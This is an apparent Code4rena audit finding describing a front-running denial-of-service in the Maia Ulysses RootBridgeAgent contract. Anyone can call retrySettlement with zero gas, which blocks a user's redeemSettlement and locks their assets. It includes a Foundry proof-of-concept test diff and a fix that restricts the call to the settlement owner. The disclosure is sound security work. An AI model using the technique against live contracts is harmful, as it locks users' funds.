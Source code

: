 ## Tags

- bug
- 2 (Med Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-03

# [`RootBridgeAgent.redeemSettlement` can be front-run using `RootBridgeAgent.retrySettlement` causing redeem DoS](https://github.com/code-423n4/2023-05-maia-findings/issues/869) 

# Lines of code

https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L268


# Vulnerability details

## Impact
Since [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252) can be called by **anyone** for **any** settlement, a malicious actor can front-run an user trying to redeem his failed settlement via [RootBridgeAgent.redeemSettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L254-L268) by calling [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252) with `_remoteExecutionGas = 0` in order to make sure that this settlement will also fail in the future.  

As a consequnce, the user's subsequent call to [RootBridgeAgent.redeemSettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L254-L268) [will revert](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L260-L261) (DoS) because the settlement was [already marked](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L577) with `SettlementStatus.Success` during the malicious actor's call to [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252). Therefore the user is unable to redeem his assets.

## Proof of Concept
The following PoC modifies an existing test case to confirm the above claims resulting in:
* The settlement being marked with `SettlementStatus.Success`.
* DoS of [RootBridgeAgent.redeemSettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L254-L268) method for this settlement.
* **The user not being able to redeem his assets.**

Just apply the *diff* below and run the test with `forge test --match-test testRedeemSettlement`:

```diff
diff --git a/test/ulysses-omnichain/RootTest.t.sol b/test/ulysses-omnichain/RootTest.t.sol
index ea88453..ccd7ad2 100644
--- a/test/ulysses-omnichain/RootTest.t.sol
+++ b/test/ulysses-omnichain/RootTest.t.sol
@@ -1299,14 +1299,13 @@ contract RootTest is DSTestPlus {
         hevm.deal(_user, 1 ether);
 
         //Retry Settlement
-        multicallBridgeAgent.retrySettlement{value: 1 ether}(settlementNonce, 0.5 ether);
 
         settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);
 
         require(settlement.status == SettlementStatus.Success, "Settlement status should be success.");
     }
 
-    function testRedeemSettlement() public {
+    function testRedeemSettlementFrontRunDoS() public {
         //Set up
         testAddLocalTokenArbitrum();
 
@@ -1389,15 +1388,25 @@ contract RootTest is DSTestPlus {
 
         require(settlement.status == SettlementStatus.Failed, "Settlement status should be failed.");
 
-        //Retry Settlement
-        multicallBridgeAgent.redeemSettlement(settlementNonce);
+        //Front-run redeem settlement with '_remoteExecutionGas = 0'
+        address _malice = address(0x1234);
+        hevm.deal(_malice, 1 ether);
+        hevm.prank(_malice);
+        multicallBridgeAgent.retrySettlement{value: 1 ether}(settlementNonce, 0 ether);
 
         settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);
+        require(settlement.status == SettlementStatus.Success, "Settlement status should be success.");
 
-        require(settlement.owner == address(0), "Settlement should cease to exist.");
+        //Redeem settlement DoS cause settlement is marked as success
+        hevm.expectRevert(abi.encodeWithSignature("SettlementRedeemUnavailable()"));
+        multicallBridgeAgent.redeemSettlement(settlementNonce);
+
+        settlement = multicallBridgeAgent.getSettlementEntry(settlementNonce);
+        require(settlement.owner != address(0), "Settlement should still exist.");
 
+        //User couldn't redeem funds
         require(
-            MockERC20(newAvaxAssetGlobalAddress).balanceOf(_user) == 150 ether, "Settlement should have been redeemed"
+            MockERC20(newAvaxAssetGlobalAddress).balanceOf(_user) == 0 ether, "Settlement should not have been redeemed"
         );
     }
 
```

## Tools Used
VS Code, Foundry

## Recommended Mitigation Steps
I suggest to only allow calls to [RootBridgeAgent.retrySettlement(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L243-L252) by the settlement owner:

```diff
diff --git a/src/ulysses-omnichain/RootBridgeAgent.sol b/src/ulysses-omnichain/RootBridgeAgent.sol
index 34f4286..4acef39 100644
--- a/src/ulysses-omnichain/RootBridgeAgent.sol
+++ b/src/ulysses-omnichain/RootBridgeAgent.sol
@@ -242,6 +242,14 @@ contract RootBridgeAgent is IRootBridgeAgent {
 
     /// @inheritdoc IRootBridgeAgent
     function retrySettlement(uint32 _settlementNonce, uint128 _remoteExecutionGas) external payable {
+        //Get deposit owner.
+        address depositOwner = getSettlement[_settlementNonce].owner;
+        if (
+            msg.sender != depositOwner && msg.sender != address(IPort(localPortAddress).getUserAccount(depositOwner))
+        ) {
+            revert NotSettlementOwner();
+        }
+
         //Update User Gas available.
         if (initialGas == 0) {
             userFeeInfo.depositedGas = uint128(msg.value);

```



## Assessed type

DoS
